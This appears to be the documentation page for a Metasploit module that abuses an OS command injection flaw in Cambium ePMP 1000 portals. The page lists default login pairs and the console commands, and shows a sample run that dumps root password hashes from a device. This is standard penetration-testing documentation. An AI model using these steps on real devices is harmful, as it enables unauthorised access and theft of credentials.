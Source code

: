 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (<v2.5) device management portal.
It requires any one of the following login credentials to dump system hashes:

1. admin/admin
2. installer/installer
3. home/home

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_dump_hashes```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/epmp1000_dump_hashes
msf auxiliary(epmp1000_dump_hashes) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_dump_hashes) > set rport 80
msf auxiliary(epmp1000_dump_hashes) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 2.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] ++++++++++++++++++++++++++++++++++++++
[*] 1.3.3.7:80 - [1/1] - dumping password hashes
root:$1$<hash>:0:0:root:/root:/bin/ash
...
...
[*] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_ePMP_passwd_282393.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
